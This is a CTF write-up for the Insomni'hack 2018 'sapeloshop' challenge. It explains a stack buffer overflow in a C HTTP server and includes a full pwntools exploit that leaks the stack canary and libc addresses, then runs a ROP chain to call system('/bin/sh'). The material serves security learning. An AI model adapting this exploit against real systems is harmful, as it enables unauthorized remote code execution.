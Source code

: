 ```yaml
---
layout: post
category: Pwn
title: Insomni'hack teaser 2018 sapeloshop
tags: 
    - kowu
---
```


First of all, I assume that this was not the intended solution for the challenge as it was labeled with `Difficulty: Medium-Hard`. There were multiple bugs (two buffer overflow and a use after free, double free). I opted to solve it the easy way with a good old buffer overflow.

The challenge itself was a handwritten HTTP server in C. You can put items in your shopping cart, increase and decrease their amount, and remove them from the cart. We were provided with the binary and libc, aslr, nx and stack canaries turned on. The bug I exploited was in the POST request handling. Consider following pseudocode:
```c
bool keepalive = true;
while(keepalive) {
    char buf[0x4000];
    int pos;
    pos = read(fd, buf, 0x4000);
    if (!strstr(buf, "keep-alive"))
        keepalive = false;
    if (strstr(buf, "Content-Length"))
        read(fd, &buf[pos], MIN(getcontentlength(buf), 1024));
    dostuff(buf);
}
```
So basically a simple buffer overflow. But before exploiting we need to leak the stack canary and the libc / proc base address. Wich was pretty easy. As the POST data is reused later, we could just overflow and leak by viewing our shopping cart (GET /cart HTTP/1.1).
![m1](/assets/img/insomni_sapelo.png)
The first red area is the HTTP request, second one is POST data. First green square is the stack canary, second a proc pointer and the third one belongs to libc_start_main_ret. If we send the above payload an item will be added to the shopping cart with the name "AAAA[cancary][procpointer]".
By increasing the amount of A's we leak the libc_start_main_ret address as well and have all we need for pwnage! On all requests we set the "keepalive" to true, until we leaked everything and overwrote the stack properly with a simple ropchain (`[pop rdi;ret]["/bin/sh"][system]`). As soon as we set "keepalive" to false the ropchain will trigger system("/bin/sh").

The flag was: `INS{sapeurs_are_the_real_heapsters}`.

Full exploitcode we used, CTF codequality, unreliable:
```python
from pwn import *

r = remote("sapeloshop.teaser.insomnihack.ch", 80)
# r = remote("localhost", 31337)

addr_binsh = 0x18cd57
addr_system = 0x45390
offset_libc = 0x20830   # libc start main ret
offset_proc = 0x2370


def leakall():
    payload = "POST /add HTTP/1.1\r\n" + \
              "Connection: keep-alive\r\n" + \
              "User-Agent: lolololol\r\n" + \
              "Filler: " + "A" * 16283 + "\r\n" + \
              "Content-Length: 0009\r\n" + \
              "\r\n" + \
              "desc=" + "A" * 4
    r.send(payload)
    r.recvuntil("</html>")
    r.send("POST /cart HTTP/1.1\r\n" +
           "Connection: keep-alive\r\n" +
           "User-Agent: lolololol\r\n" +
           "\r\n")
    r.recvuntil("img/AAAA")
    leak = "\x00" + r.recvn(13) + "\x00\x00"
    leak = struct.unpack("<QQ", leak)
    leak_canary = leak[0]
    leak_proc = leak[1] - offset_proc
    r.recvuntil("</html>")

    payload = "POST /add HTTP/1.1\r\n" + \
              "Connection: keep-alive\r\n" + \
              "User-Agent: lolololol\r\n" + \
              "Filler: " + "A" * 16283 + "\r\n" + \
              "Content-Length: 0024\r\n" + \
              "\r\n" + \
              "desc=" + "A" * 19
    r.send(payload)
    r.recvuntil("</html>")
    r.send("POST /cart HTTP/1.1\r\n" +
           "Connection: keep-alive\r\n" +
           "User-Agent: lolololol\r\n" +
           "\r\n")
    r.recvuntil("img/AAAAAAAAAAAAAAAAAAA")
    leak = r.recvn(6) + "\x00\x00"
    leak = struct.unpack("<Q", leak)
    leak_libc = leak[0] - offset_libc
    r.recvuntil("</html>")

    return leak_canary, leak_libc, leak_proc


def pwn():
    cancary, libcbase, procbase = leakall()
    print("canary: {}\nlibc: {}\nproc: {}".format(hex(cancary), hex(libcbase), hex(procbase)))

    print("ropping.")
    ropchain = "A" * 8
    ropchain += struct.pack("<Q", procbase + 0x23d3)  # pop rdi;ret
    ropchain += struct.pack("<Q", libcbase + addr_binsh)  # /bin/sh
    ropchain += struct.pack("<Q", libcbase + addr_system)  # system

    payload = "POST /add HTTP/1.1\r\n" + \
              "Connection: close\r\n" + \
              "User-Agent: lolololol\r\n" + \
              "Filler: " + "A" * 16288 + "\r\n" + \
              "Content-Length: 0048\r\n" + \
              "\r\n" + \
              "desc=AAA" + struct.pack("<Q", cancary) + ropchain
    r.send(payload)
    r.recvuntil("</html>")

    print("zerfickung!")
    r.interactive()


if __name__ == '__main__':
    pwn()

```
